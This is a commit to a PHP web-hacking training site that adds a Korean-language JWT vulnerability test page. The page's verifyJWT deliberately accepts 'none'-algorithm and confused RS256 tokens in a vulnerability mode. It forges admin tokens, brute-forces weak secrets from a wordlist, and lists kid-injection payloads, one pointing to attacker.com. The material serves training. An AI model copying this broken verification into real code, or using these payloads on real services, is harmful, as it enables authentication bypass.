
After one commit to Mkway/S_WEB_Project, a PHP site: page /webhacking/jwt_test.php in a window 390 px wide. The commit adds this page. Shown: the whole page at 87% size. Run offline with PHP 8.4, Linux system fonts and the light colour scheme.

Commit message:
feat: JWT (JSON Web Token) 취약점 테스트 페이지 구현
PayloadsAllTheThings 기반 JWT 보안 테스트 시스템을 추가했습니다.

주요 기능:
- JWT 헬퍼 함수들 (인코딩, 디코딩, 생성, 파싱, 검증)
- 5가지 공격 시나리오 구현:
  * None Algorithm Attack - 서명 검증 우회
  * Algorithm Confusion - RS256 ↔ HS256 혼동 공격
  * Weak Secret Attack - 약한 키 브루트포스
  * Token Manipulation - 페이로드 조작
  * JWT Information Disclosure - 정보 추출
- Bootstrap 5 기반 반응형 UI
- 교육적 콘텐츠 (CVSS 점수, 대응 방안, 참고 자료)
- 취약점 모드 시뮬레이션 지원

🤖 Generated with [Claude Code](https://claude.ai/code)

Co-Authored-By: Claude <noreply@anthropic.com>

```diff
--- /dev/null
+++ b/my_lemp_project/src/webhacking/jwt_test.php
@@ -0,0 +1,535 @@
+<?php
+/**
+ * JWT (JSON Web Token) 취약점 테스트 페이지
+ * PayloadsAllTheThings 기반 JWT 공격 시나리오 시뮬레이션
+ */
+
+session_start();
+require_once '../db.php';
+require_once '../utils.php';
+
+$test_results = [];
+$educational_info = [];
+
+// JWT 헬퍼 함수들
+function base64UrlEncode($data) {
+    return rtrim(strtr(base64_encode($data), '+/', '-_'), '=');
+}
+
+function base64UrlDecode($data) {
+    return base64_decode(str_pad(strtr($data, '-_', '+/'), strlen($data) % 4, '=', STR_PAD_RIGHT));
+}
+
+function createJWT($header, $payload, $secret = 'secret') {
+    $headerEncoded = base64UrlEncode(json_encode($header));
+    $payloadEncoded = base64UrlEncode(json_encode($payload));
+
+    $signature = hash_hmac('sha256', $headerEncoded . '.' . $payloadEncoded, $secret, true);
+    $signatureEncoded = base64UrlEncode($signature);
+
+    return $headerEncoded . '.' . $payloadEncoded . '.' . $signatureEncoded;
+}
+
+function parseJWT($jwt) {
+    $parts = explode('.', $jwt);
+    if (count($parts) !== 3) {
+        return false;
+    }
+
+    return [
+        'header' => json_decode(base64UrlDecode($parts[0]), true),
+        'payload' => json_decode(base64UrlDecode($parts[1]), true),
+        'signature' => $parts[2]
+    ];
+}
+
+function verifyJWT($jwt, $secret = 'secret') {
+    $parts = explode('.', $jwt);
+    if (count($parts) !== 3) {
+        return false;
+    }
+
+    $header = json_decode(base64UrlDecode($parts[0]), true);
+    $payload = json_decode(base64UrlDecode($parts[1]), true);
+
+    // 취약점 모드에서는 알고리즘 검증을 우회할 수 있음
+    if (defined('VULNERABILITY_MODE') && VULNERABILITY_MODE === true) {
+        // None 알고리즘 취약점 - 서명 검증 우회
+        if (isset($header['alg']) && $header['alg'] === 'none') {
+            return $payload;
+        }
+
+        // 알고리즘 혼동 공격 - HS256을 RS256으로 혼동
+        if (isset($header['alg']) && $header['alg'] === 'RS256') {
+            // 실제로는 HS256으로 검증 (키 혼동)
+            $expectedSignature = base64UrlEncode(hash_hmac('sha256', $parts[0] . '.' . $parts[1], $secret, true));
+            if (hash_equals($expectedSignature, $parts[2])) {
+                return $payload;
+            }
+        }
+    }
+
+    // 정상적인 HMAC 검증
+    $expectedSignature = base64UrlEncode(hash_hmac('sha256', $parts[0] . '.' . $parts[1], $secret, true));
+    if (hash_equals($expectedSignature, $parts[2])) {
+        return $payload;
+    }
+
+    return false;
+}
+
+// POST 요청 처리
+if ($_SERVER['REQUEST_METHOD'] === 'POST') {
+    $test_type = $_POST['test_type'] ?? '';
+    $jwt_token = $_POST['jwt_token'] ?? '';
+
+    if (function_exists('log_security')) {
+        log_security('jwt_test_attempt', "JWT test attempted: {$test_type}", [
+            'test_type' => $test_type,
+            'jwt_token' => substr($jwt_token, 0, 50) . '...',
+            'ip_address' => $_SERVER['REMOTE_ADDR'] ?? 'unknown'
+        ]);
+    }
+
+    switch ($test_type) {
+        case 'none_algorithm':
+            // None 알고리즘 공격
+            $header = ['typ' => 'JWT', 'alg' => 'none'];
+            $payload = ['user' => 'admin', 'role' => 'administrator', 'exp' => time() + 3600];
+
+            $malicious_jwt = base64UrlEncode(json_encode($header)) . '.' .
+                           base64UrlEncode(json_encode($payload)) . '.';
+
+            $verification_result = verifyJWT($malicious_jwt);
+
+            $test_results['none_algorithm'] = [
+                'original_token' => $jwt_token,
+                'malicious_token' => $malicious_jwt,
+                'verification_result' => $verification_result,
+                'success' => $verification_result !== false
+            ];
+
+            $educational_info['none_algorithm'] = [
+                'attack_type' => 'None Algorithm Attack',
+                'description' => 'JWT의 알고리즘을 "none"으로 설정하여 서명 검증을 우회합니다.',
+                'impact' => '인증 우회, 권한 상승, 데이터 조작',
+                'mitigation' => '서버에서 None 알고리즘을 명시적으로 거부해야 합니다.',
+                'cvss_score' => '9.0 (Critical)'
+            ];
+            break;
+
+        case 'algorithm_confusion':
+            // 알고리즘 혼동 공격 (RS256 -> HS256)
+            $header = ['typ' => 'JWT', 'alg' => 'RS256'];
+            $payload = ['user' => 'admin', 'role' => 'administrator', 'exp' => time() + 3600];
+
+            // 공개키를 HMAC 시크릿으로 사용
+            $public_key = 'secret'; // 실제로는 RSA 공개키를 사용
+            $malicious_jwt = createJWT($header, $payload, $public_key);
+
+            $verification_result = verifyJWT($malicious_jwt);
+
+            $test_results['algorithm_confusion'] = [
+                'original_token' => $jwt_token,
+                'malicious_token' => $malicious_jwt,
+                'verification_result' => $verification_result,
+                'success' => $verification_result !== false
+            ];
+
+            $educational_info['algorithm_confusion'] = [
+                'attack_type' => 'Algorithm Confusion Attack',
+                'description' => 'RSA 공개키를 HMAC 시크릿으로 사용하여 토큰을 위조합니다.',
+                'impact' => '토큰 위조, 인증 우회, 권한 상승',
+                'mitigation' => '알고리즘을 엄격하게 검증하고 키 타입을 확인해야 합니다.',
+                'cvss_score' => '8.5 (High)'
+            ];
+            break;
+
+        case 'weak_secret':
+            // 약한 시크릿 키 공격
+            $weak_secrets = ['secret', '123456', 'password', 'key', 'jwt', 'test'];
+            $cracked_token = null;
+            $used_secret = null;
+
+            foreach ($weak_secrets as $weak_secret) {
+                $result = verifyJWT($jwt_token, $weak_secret);
+                if ($result !== false) {
+                    $cracked_token = $result;
+                    $used_secret = $weak_secret;
+                    break;
+                }
+            }
+
+            $test_results['weak_secret'] = [
+                'original_token' => $jwt_token,
+                'cracked_payload' => $cracked_token,
+                'weak_secret' => $used_secret,
+                'success' => $cracked_token !== null
+            ];
+
+            $educational_info['weak_secret'] = [
+                'attack_type' => 'Weak Secret Attack',
+                'description' => '사전 공격으로 약한 JWT 시크릿 키를 찾아냅니다.',
+                'impact' => '토큰 위조, 사용자 데이터 노출, 무단 접근',
+                'mitigation' => '강력한 시크릿 키 사용 (최소 256비트), 정기적인 키 교체',
+                'cvss_score' => '7.5 (High)'
+            ];
+            break;
+
+        case 'token_manipulation':
+            // 토큰 조작 (페이로드 변경)
+            $parsed = parseJWT($jwt_token);
+            if ($parsed) {
+                $malicious_payload = $parsed['payload'];
+                $malicious_payload['user'] = 'admin';
+                $malicious_payload['role'] = 'administrator';
+                $malicious_payload['exp'] = time() + 86400; // 24시간 연장
+
+                $malicious_jwt = createJWT($parsed['header'], $malicious_payload);
+                $verification_result = verifyJWT($malicious_jwt);
+
+                $test_results['token_manipulation'] = [
+                    'original_token' => $jwt_token,
+                    'original_payload' => $parsed['payload'],
+                    'malicious_token' => $malicious_jwt,
+                    'malicious_payload' => $malicious_payload,
+                    'verification_result' => $verification_result,
+                    'success' => $verification_result !== false
+                ];
+            }
+
+            $educational_info['token_manipulation'] = [
+                'attack_type' => 'Token Manipulation',
+                'description' => 'JWT 페이로드를 조작하여 권한을 상승시키거나 만료 시간을 연장합니다.',
+                'impact' => '권한 상승, 세션 하이재킹, 데이터 무결성 침해',
+                'mitigation' => '서명 검증 강화, 토큰 무결성 검사, 적절한 권한 검증',
+                'cvss_score' => '8.0 (High)'
+            ];
+            break;
+
+        case 'jwt_parsing':
+            // JWT 파싱 및 정보 추출
+            $parsed = parseJWT($jwt_token);
+
+            $test_results['jwt_parsing'] = [
+                'original_token' => $jwt_token,
+                'parsed_header' => $parsed['header'] ?? null,
+                'parsed_payload' => $parsed['payload'] ?? null,
+                'signature' => $parsed['signature'] ?? null,
+                'success' => $parsed !== false
+            ];
+
+            $educational_info['jwt_parsing'] = [
+                'attack_type' => 'JWT Information Disclosure',
+                'description' => 'JWT 토큰을 파싱하여 민감한 정보를 추출합니다.',
+                'impact' => '정보 노출, 사용자 데이터 유출, 시스템 구조 파악',
+                'mitigation' => 'JWT에 민감한 정보 포함 금지, 토큰 암호화 고려',
+                'cvss_score' => '6.5 (Medium)'
+            ];
+            break;
+    }
+}
+
+// 기본 JWT 토큰 생성
+$default_header = ['typ' => 'JWT', 'alg' => 'HS256'];
+$default_payload = ['user' => 'testuser', 'role' => 'user', 'exp' => time() + 3600];
+$default_jwt = createJWT($default_header, $default_payload);
+?>
+
+<!DOCTYPE html>
+<html lang="ko">
+<head>
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>JWT 취약점 테스트 - PayloadsAllTheThings</title>
+    <!-- Bootstrap 5 CSS -->
+    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.2/dist/css/bootstrap.min.css" rel="stylesheet">
+    <!-- Bootstrap Icons -->
+    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap-icons@1.11.2/font/bootstrap-icons.css">
+    <style>
+        .vulnerability-warning {
+            background: linear-gradient(45deg, #ff6b6b, #feca57);
+            color: white;
+            animation: pulse 2s infinite;
+        }
+
+        .payload-box {
+            background-color: #f8f9fa;
+            border-left: 4px solid #007bff;
+            font-family: 'Consolas', 'Monaco', 'Courier New', monospace;
+        }
+
+        .result-success {
+            background-color: #d4edda;
+            border-color: #c3e6cb;
+            color: #155724;
+        }
+
+        .result-info {
+            background-color: #cce7ff;
+            border-color: #99d6ff;
+            color: #004085;
+        }
+
+        .jwt-token {
+            word-break: break-all;
+            font-family: 'Consolas', 'Monaco', 'Courier New', monospace;
+            font-size: 0.85em;
+            background-color: #2d3748;
+            color: #e2e8f0;
+            padding: 1rem;
+            border-radius: 0.5rem;
+        }
+
+        .cvss-critical { color: #dc3545; font-weight: bold; }
+        .cvss-high { color: #fd7e14; font-weight: bold; }
+        .cvss-medium { color: #ffc107; font-weight: bold; }
+        .cvss-low { color: #198754; font-weight: bold; }
+    </style>
+</head>
+<body>
+    <nav class="navbar navbar-expand-lg navbar-dark bg-dark">
+        <div class="container">
+            <a class="navbar-brand" href="index.php">
+                <i class="bi bi-shield-exclamation"></i> WebHacking Test
+            </a>
+            <a href="index.php" class="btn btn-outline-light btn-sm">
+                <i class="bi bi-arrow-left"></i> 메인으로
+            </a>
+        </div>
+    </nav>
+
+    <?php if (defined('VULNERABILITY_MODE') && VULNERABILITY_MODE === true): ?>
+        <div class="alert vulnerability-warning alert-dismissible fade show m-0 rounded-0" role="alert">
+            <div class="container">
+                <i class="bi bi-exclamation-triangle-fill me-2"></i>
+                <strong>취약점 모드 활성화</strong> - JWT 공격이 시뮬레이션됩니다 (교육 목적)
+                <button type="button" class="btn-close btn-close-white" data-bs-dismiss="alert"></button>
+            </div>
+        </div>
+    <?php endif; ?>
+
+    <div class="container mt-4">
+        <div class="row">
+            <div class="col-12">
+                <div class="card shadow-sm">
+                    <div class="card-header bg-primary text-white">
+                        <h2 class="card-title mb-0">
+                            <i class="bi bi-key"></i> JWT (JSON Web Token) 취약점 테스트
+                        </h2>
+                    </div>
+                    <div class="card-body">
+                        <div class="alert alert-info">
+                            <i class="bi bi-info-circle"></i>
+                            <strong>JWT 보안 테스트</strong><br>
+                            JWT 토큰의 다양한 취약점을 테스트합니다. PayloadsAllTheThings 기반의 실제 공격 시나리오를 시뮬레이션합니다.
+                        </div>
+
+                        <!-- 기본 JWT 토큰 -->
+                        <div class="mb-4">
+                            <h5><i class="bi bi-card-text"></i> 테스트용 JWT 토큰</h5>
+                            <div class="jwt-token">
+                                <?php echo htmlspecialchars($default_jwt); ?>
+                            </div>
+                            <small class="text-muted">Header: {"typ":"JWT","alg":"HS256"} | Payload: {"user":"testuser","role":"user","exp":<?php echo time() + 3600; ?>}</small>
+                        </div>
+
+                        <!-- 테스트 폼 -->
+                        <form method="post" class="mb-4">
+                            <div class="row g-3">
+                                <div class="col-md-4">
+                                    <label for="test_type" class="form-label">공격 유형</label>
+                                    <select name="test_type" id="test_type" class="form-select" required>
+                                        <option value="">선택하세요</option>
+                                        <option value="none_algorithm">None Algorithm Attack</option>
+                                        <option value="algorithm_confusion">Algorithm Confusion</option>
+                                        <option value="weak_secret">Weak Secret Brute Force</option>
+                                        <option value="token_manipulation">Token Manipulation</option>
+                                        <option value="jwt_parsing">JWT Information Disclosure</option>
+                                    </select>
+                                </div>
+                                <div class="col-md-6">
+                                    <label for="jwt_token" class="form-label">JWT 토큰</label>
+                                    <input type="text" name="jwt_token" id="jwt_token" class="form-control"
+                                           value="<?php echo htmlspecialchars($default_jwt); ?>" required>
+                                </div>
+                                <div class="col-md-2">
+                                    <label class="form-label">&nbsp;</label>
+                                    <button type="submit" class="btn btn-danger w-100">
+                                        <i class="bi bi-bug"></i> 공격 시뮬레이션
+                                    </button>
+                                </div>
+                            </div>
+                        </form>
+
+                        <!-- 테스트 결과 -->
+                        <?php if (!empty($test_results)): ?>
+                            <?php foreach ($test_results as $test_type => $result): ?>
+                                <div class="card mb-4">
+                                    <div class="card-header">
+                                        <h5 class="mb-0">
+                                            <i class="bi bi-bug-fill"></i>
+                                            <?php echo htmlspecialchars($educational_info[$test_type]['attack_type']); ?>
+                                            <?php if ($result['success']): ?>
+                                                <span class="badge bg-danger ms-2">공격 성공</span>
+                                            <?php else: ?>
+                                                <span class="badge bg-success ms-2">방어됨</span>
+                                            <?php endif; ?>
+                                        </h5>
+                                    </div>
+                                    <div class="card-body">
+                                        <div class="row">
+                                            <div class="col-md-8">
+                                                <h6>공격 결과</h6>
+                                                <?php if ($test_type === 'jwt_parsing'): ?>
+                                                    <div class="payload-box p-3 mb-3">
+                                                        <strong>Header:</strong><br>
+                                                        <code><?php echo json_encode($result['parsed_header'], JSON_PRETTY_PRINT); ?></code><br><br>
+                                                        <strong>Payload:</strong><br>
+                                                        <code><?php echo json_encode($result['parsed_payload'], JSON_PRETTY_PRINT); ?></code>
+                                                    </div>
+                                                <?php elseif ($test_type === 'weak_secret'): ?>
+                                                    <?php if ($result['success']): ?>
+                                                        <div class="alert result-success">
+                                                            <strong>약한 시크릿 발견:</strong> <?php echo htmlspecialchars($result['weak_secret']); ?><br>
+                                                            <strong>해독된 페이로드:</strong><br>
+                                                            <code><?php echo json_encode($result['cracked_payload'], JSON_PRETTY_PRINT); ?></code>
+                                                        </div>
+                                                    <?php else: ?>
+                                                        <div class="alert alert-info">
+                                                            <strong>시크릿 키 크래킹 실패</strong> - 사전에 있는 약한 키로는 해독할 수 없습니다.
+                                                        </div>
+                                                    <?php endif; ?>
+                                                <?php else: ?>
+                                                    <div class="payload-box p-3 mb-3">
+                                                        <strong>조작된 토큰:</strong><br>
+                                                        <code class="text-break"><?php echo htmlspecialchars($result['malicious_token'] ?? ''); ?></code>
+                                                        <?php if (isset($result['verification_result'])): ?>
+                                                            <br><br><strong>검증 결과:</strong><br>
+                                                            <code><?php echo json_encode($result['verification_result'], JSON_PRETTY_PRINT); ?></code>
+                                                        <?php endif; ?>
+                                                    </div>
+                                                <?php endif; ?>
+                                            </div>
+                                            <div class="col-md-4">
+                                                <h6>보안 정보</h6>
+                                                <div class="alert result-info">
+                                                    <strong>공격 유형:</strong> <?php echo htmlspecialchars($educational_info[$test_type]['attack_type']); ?><br>
+                                                    <strong>영향도:</strong> <?php echo htmlspecialchars($educational_info[$test_type]['impact']); ?><br>
+                                                    <strong>CVSS 점수:</strong>
+                                                    <span class="cvss-<?php echo (strpos($educational_info[$test_type]['cvss_score'], '9.') === 0) ? 'critical' : ((strpos($educational_info[$test_type]['cvss_score'], '8.') === 0) ? 'high' : 'medium'); ?>">
+                                                        <?php echo htmlspecialchars($educational_info[$test_type]['cvss_score']); ?>
+                                                    </span>
+                                                </div>
+                                                <h6>대응 방안</h6>
+                                                <div class="alert alert-success">
+                                                    <?php echo htmlspecialchars($educational_info[$test_type]['mitigation']); ?>
+                                                </div>
+                                            </div>
+                                        </div>
+                                    </div>
+                                </div>
+                            <?php endforeach; ?>
+                        <?php endif; ?>
+
+                        <!-- PayloadsAllTheThings 참고 자료 -->
+                        <div class="card mt-4">
+                            <div class="card-header">
+                                <h5 class="mb-0"><i class="bi bi-book"></i> PayloadsAllTheThings JWT 공격 페이로드</h5>
+                            </div>
+                            <div class="card-body">
+                                <div class="row">
+                                    <div class="col-md-6">
+                                        <h6>None Algorithm Attack</h6>
+                                        <div class="payload-box p-3 mb-3">
+                                            <code>eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VyIjoiYWRtaW4ifQ.</code>
+                                        </div>
+
+                                        <h6>Algorithm Confusion (RS256 → HS256)</h6>
+                                        <div class="payload-box p-3 mb-3">
+                                            <code># 공개키를 HMAC 시크릿으로 사용<br>
+                                            jwt.encode(payload, public_key, algorithm='HS256')</code>
+                                        </div>
+                                    </div>
+                                    <div class="col-md-6">
+                                        <h6>Weak Secret Dictionary</h6>
+                                        <div class="payload-box p-3 mb-3">
+                                            <code>secret, 123456, password, key, jwt<br>
+                                            admin, test, qwerty, letmein<br>
+                                            hello, world, default, token</code>
+                                        </div>
+
+                                        <h6>JWT Kid Injection</h6>
+                                        <div class="payload-box p-3 mb-3">
+                                            <code>"kid": "/path/to/file"<br>
+                                            "kid": "../../public.key"<br>
+                                            "kid": "http://attacker.com/key"</code>
+                                        </div>
+                                    </div>
+                                </div>
+
+                                <div class="alert alert-warning mt-3">
+                                    <i class="bi bi-exclamation-triangle"></i>
+                                    <strong>참고 자료:</strong>
+                                    <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token" target="_blank" class="alert-link">
+                                        PayloadsAllTheThings - JWT
+                                    </a> |
+                                    <a href="https://jwt.io/" target="_blank" class="alert-link">JWT.io Debugger</a> |
+                                    <a href="https://owasp.org/www-chapter-vancouver/assets/presentations/2020-01_Attacking_JWT_Tokens.pdf" target="_blank" class="alert-link">OWASP JWT Attacks</a>
+                                </div>
+                            </div>
+                        </div>
+                    </div>
+                </div>
+            </div>
+        </div>
+    </div>
+
+    <!-- Bootstrap JavaScript -->
+    <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.3.2/dist/js/bootstrap.bundle.min.js"></script>
+
+    <script>
+        // 테스트 유형에 따른 설명 표시
+        document.getElementById('test_type').addEventListener('change', function() {
+            const descriptions = {
+                'none_algorithm': 'JWT 알고리즘을 "none"으로 설정하여 서명 검증을 우회합니다.',
+                'algorithm_confusion': 'RSA 공개키를 HMAC 시크릿으로 사용하여 토큰을 위조합니다.',
+                'weak_secret': '사전 공격으로 약한 JWT 시크릿 키를 찾아냅니다.',
+                'token_manipulation': 'JWT 페이로드를 조작하여 권한을 상승시킵니다.',
+                'jwt_parsing': 'JWT 토큰을 파싱하여 민감한 정보를 추출합니다.'
+            };
+
+            const selectedType = this.value;
+            if (selectedType && descriptions[selectedType]) {
+                // 기존 설명 제거
+                const existingDesc = document.querySelector('.attack-description');
+                if (existingDesc) {
+                    existingDesc.remove();
+                }
+
+                // 새 설명 추가
+                const descDiv = document.createElement('div');
+                descDiv.className = 'alert alert-info mt-2 attack-description';
+                descDiv.innerHTML = '<i class="bi bi-info-circle"></i> ' + descriptions[selectedType];
+                this.parentNode.appendChild(descDiv);
+            }
+        });
+
+        // JWT 토큰 자동 복사 기능
+        document.querySelectorAll('.jwt-token').forEach(function(element) {
+            element.style.cursor = 'pointer';
+            element.title = '클릭하여 복사';
+            element.addEventListener('click', function() {
+                navigator.clipboard.writeText(this.textContent.trim()).then(function() {
+                    // 성공 피드백
+                    const originalBg = element.style.backgroundColor;
+                    element.style.backgroundColor = '#28a745';
+                    setTimeout(() => {
+                        element.style.backgroundColor = originalBg;
+                    }, 1000);
+                });
+            });
+        });
+    </script>
+</body>
+</html>
```
Also changed, not shown: TODO.md (+8 -8 lines), my_lemp_project/src/webhacking/index.php (+7 -0 lines).
